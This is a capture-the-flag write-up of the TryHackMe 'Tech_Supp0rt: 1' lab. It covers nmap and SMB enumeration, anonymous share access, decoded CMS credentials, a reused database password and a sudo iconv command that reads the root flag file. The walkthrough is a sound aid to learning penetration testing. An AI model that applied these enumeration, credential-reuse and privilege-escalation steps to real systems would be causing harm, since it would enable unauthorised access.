





https://tryhackme.com/room/techsupp0rt1
Description:
Hack into the scammer's under-development website to foil their plans.
Hack into the machine and investigate the target.
Please allow about 5 minutes for the machine to fully boot!
**Note**: The theme and security warnings encountered in this room are part of the challenge.

1. on main website there is default apache2 page with nothing special added in source:
   
2. nmap scaning:
   ```bash
   └─$ nmap -p- -sS -sC -A -T4 10.81.180.13
   
   PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
|_  256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Network Distance: 3 hops
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -2h07m48s, deviation: 3h10m31s, median: -17m49s
| smb2-time: 
|   date: 2025-12-30T17:41:58
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2025-12-30T23:11:56+05:30
```
   3. looks like **SMB** server does not require signing, accepts unsigned packets.
Server allows to connect as guest. 
```bash
smbclient -L 10.81.180.13 -N

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        websvr          Disk      
        IPC$            IPC       IPC Service (TechSupport server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            


```
4. searching for files under websvr:
   ```
   smbclient //10.81.180.13/websvr -N 
   smb: \> ls
   smb: \> get enter.txt
      ```
  in enter.txt we have interesting info:
  ```
  GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->

  ```
when we are trying to access 10.81.180.13/subrion it points to /subrion/subrion/
bur we have information that there is some running wordpress:

what we can read from source:
- WordPress version is 5.7.2
- there is some user named support as we can check in Blog section
  directory scanning:
```bash
└─$ wpscan --detection-mode aggressive -U support --url http://10.81.180.13/wordpress
[+] XML-RPC seems to be enabled: http://10.81.180.13/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.81.180.13/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.81.180.13/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.81.180.13/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.7.2 identified (Insecure, released on 2021-05-12).
 | Found By: Atom Generator (Aggressive Detection)
 |  - http://10.81.180.13/wordpress/?feed=atom, <generator uri="https://wordpress.org/" version="5.7.2">WordPress</generator>
 | Confirmed By: Style Etag (Aggressive Detection)
 |  - http://10.81.180.13/wordpress/wp-admin/load-styles.php, Match: '5.7.2'

```
trying to access /subrion
intercepting request from browser:

more directory scanning...
```bash
└─$ feroxbuster -u 'http://10.82.130.250:80/' -w /usr/share/seclists/Discovery/Web-Content/big.txt 
# interesting directories found:
http://10.82.130.250/test/

http://10.82.130.250/wordpress/wp-admin
http://10.82.130.250/wordpress/wp-includes/PHPMailer/  - Directory listing
```
http://10.82.130.250/test/
under this address there is some website, looks hacked, there was a lot of popups. 
I decided to further check what's going on with **/subrion**:
I couldn't access it because of wrong redirects:

But I decided to run some directory enumeration:
```bash
 feroxbuster -u 'http://10.82.130.250:80/subrion/' -w /usr/share/seclists/Discovery/Web-Content/big.txt                                
 # only robots.txt, sitemap.xml, README.md accessible with 200 response                                                                                 
```

Ok here we have panel:
http://10.82.130.250/subrion/panel/

Remember? we have credentials to this panel:
**admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk**
I used **cyberchef** and **Magic** formula to decode it:

![[img-20251230223040.png]]

I tried edit sitemapGeneration php script to gain reverse shell but it was not possible. Anyway, I decided to search for exploit dedicated for subrion CMS:
ok now we have shell:
there is password in **wordpress/wp-config.php**:
db_user: **REDACTED**
db_password: **REDACTED**

but maybe credentials are reused???
I searched for user support but there is no such user in passwd, but there is scamsite user:
```bash
uid=1000(scamsite) gid=1000(scamsite) groups=1000(scamsite),113(sambashare)
```

ok.. **ImAScammerLOL!123! - works for scamsite user.

running **linpeas.sh** reveals something interesting in bash history and as information from ``sudo -l`` command:
```bash
User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv

sudo iconv -f 8859_1 -t 8859_1 "/root/root.txt"
```
I checked also to confirm in https://gtfobins.github.io/gtfobins/iconv/#sudo
it allows us to read final flag from root home directory:
